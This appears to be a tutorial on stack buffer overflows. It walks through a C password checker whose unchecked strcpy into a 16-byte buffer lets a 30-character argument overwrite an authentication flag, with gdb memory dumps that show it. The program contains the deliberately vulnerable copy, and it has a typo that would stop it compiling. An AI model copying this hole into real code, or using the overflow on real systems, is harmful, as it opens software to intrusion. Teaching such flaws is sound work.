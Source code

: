 ```c
/*
 *Source code for debugging  
 */
#include <stdio.h>  
#include <stdlib.h>  
#include <string.h>  

int check_authentication(char* password) {  
  int auth_flag = 0;  
  char password_buffer[16];  
    
  strcpy(password_buffer, password);  
    
  if(strcmp(passsword_buffer, "brillig") == 0)  
    auth_flag = 1;  
  if(strcmp(password_buffer, "outgrabe") == 0)  
   auth_flag = 1;  
  
  return auth_flag;
}

int main(int argc, char* argv[]) {
  if(argc <2) {
    printf("Usage : %s <password>\n", argv[0]);
    exit(0);
}
  
  if(check_authentication(argv[1])) {
    printf("\n-=-=-=-=-=-=-=-=-=-\n");
    printf("Access Granted.\n");
    printf("-=-=-=-=-=-=-=-=-=-\n");
  }
  else {
   printf("\nAccess Denied.\n");
  }
}
```

This program is so simple and looks like granting access only the case of
entering "brillig" or "outgrabe" as an argument.
But by entering 30 times of 'A', we can exploit this program.
Let's take a look why this happens.

/*
 * compiled with -fno-stack-protector option
 * set breakpoint at strcpy(password_buffer, password);
 * (gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 */
>(gdb) print &auth_flag
>$1 = (int *) 0x7fffffffdf3c
>(gdb) print &password_buffer
>$2 = (char (*)[16]) 0x7fffffffdf20

By debugging the program, we can find the address of auth_flag is 28 bytes after 
than password_buffer. Since strcpy() does not check boundary, if we give more than
28 bytes(not too much)length of any string as argument, auth_flag will be set to nonzero.

/*
 * set breakpoint at return auth_flag;
 * (gdb) c  //abbreviation of continue
 */
>(gdb) x/16xw password_buffer
>0x7fffffffdf20 : 0x41414141 0x41414141  0x41414141  0x41414141
>0x7fffffffdf30 : 0x41414141 0x41414141  0x41414141  **0x00004141**
>0x7fffffffdf40 : 0xffffdf60 0x00007fff  *0x5555481e  0x00005555*
>0x7fffffffdf50 : 0xffffe048 0x00007fff  0x00000000  0x00000002
>(gdb) x/u &auth_flag
>0x7fffffffdf3c: 16705 // 0x4141 in hex

Variable auth_flag is located at 0x7ffffffffdf3c~f(in bold) and 
it is overwritten to 16705. Since this machine is little endian,
rightmost 41 is 0x7fffffffdf3c. So access will be granted, because
any nonzero number is considered as true. This is basic concept of stack overflow.

Here, we have to focus the value of 0x7fffffffdf48~f(in italic).

>(gdb) disass main
>...
>0x0000555555554819 <+72>:  call 0x55555555476a <check_authentication>
>0x000055555555481e <+77>:  test eax,eax
>...

*0x000055555555481e* is return adress when function check_authentication is end.
We will discuss about stack frame in next document.
